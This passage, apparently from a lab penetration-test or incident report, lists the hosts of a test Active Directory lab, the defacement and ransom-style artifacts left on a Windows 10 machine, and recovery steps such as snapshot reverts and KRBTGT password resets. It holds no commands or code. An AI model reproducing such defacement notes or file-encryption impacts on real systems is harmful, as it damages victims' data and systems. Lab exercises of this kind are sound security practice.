  - `Win10.ad.lab` — Windows 10 Pro N for Workstations (`192.168.56.20`)
- **Staging Intermediate Host:** DVWA Linux Server (`192.168.56.30`)
- **Impact Artifacts Created:**
  - `C:\Users\Public\hacked.bmp` (Defacement graphic)
  - `README_HACKED.txt` (`YOU HAVE BEEN HACKED. Contact: eclipse@manic | eclipsemanic.me`)
  - `documents.enc` & `passwords.enc` (`ENCRYPTED_DATA_XOR_KEY_7f3a9b`)
- **Recovery and Remediation:**
  - Isolate both systems from the network immediately.
  - Revert the virtual machine state of both `PC-DC` and `Win10` from clean offline snapshots.
  - Initiate domain-wide incident response: perform consecutive KRBTGT password resets, rotate all privileged domain credentials, and re-audit Active Directory group memberships.
